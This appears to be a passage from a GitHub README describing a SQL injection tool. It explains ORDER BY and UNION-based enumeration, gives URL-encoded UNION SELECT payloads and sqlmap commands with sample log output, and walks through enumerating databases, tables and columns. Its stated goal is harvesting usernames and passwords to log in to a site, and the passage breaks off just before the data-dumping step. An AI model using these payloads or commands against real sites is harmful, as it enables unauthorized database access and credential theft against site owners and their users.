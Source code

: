 This application streamlines the SQL injection process by automating the detection and exploitation of SQL injection flaws of a database. There are several automated mechanisms to find the database name, table names, and number of columns.

* ORDER BY: it tries to order all columns form x to infinity. The iteration stops when the response shows that the input column x does not exist, reveling the value of x.

* UNION: it gathers several data located in different table columns. The automated process tries to gather all information contained in columns/table x,y,z obtained by ORDER BY. The payload is similar to:

```
?id=5'%22union%22all%22select%221,2,3
```

* Normally the databases are defined with names such as: user, admin, member, password, passwd, pwd, user_name. The injector uses a trial and error technique to try to identify the name:

```
?id=5'%22union%22all%22select%221,2,3%22from%22admin
```
So, for example, to find the database name, we run the *sqlmap* script with target *-u* and enumeration options *--dbs* (enumerate DBMS databases):

```
$ ./sqlmap.py -u <WEBSITE> --dbs
(...)
[12:59:20] [INFO] testing if URI parameter '#1*' is dynamic
[12:59:22] [INFO] confirming that URI parameter '#1*' is dynamic
[12:59:23] [WARNING] URI parameter '#1*' does not appear dynamic
[12:59:25] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[12:59:25] [INFO] testing for SQL injection on URI parameter '#1*'
[12:59:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:59:27] [WARNING] reflective value(s) found and filtering out
[12:59:51] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[13:00:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:00:16] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
(...)
```

#### Gaining access to the Database

* From this we can verify what databases we have available, for example. From this we can find out how many tables exist, and their respective names. The sqlmap command is:

```
./sqlmap -u <WEBSITE> --tables <DATABASE-NAME>
```

* The main objective is to find  usernames and passwords in order to gain access/login to the site, for example in a table named *users*. The sqlmap command is

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME>
```

This will return information about the columns in the given table.

* Now we can dump all the data of all columns using the flag ```-C``` for column names:
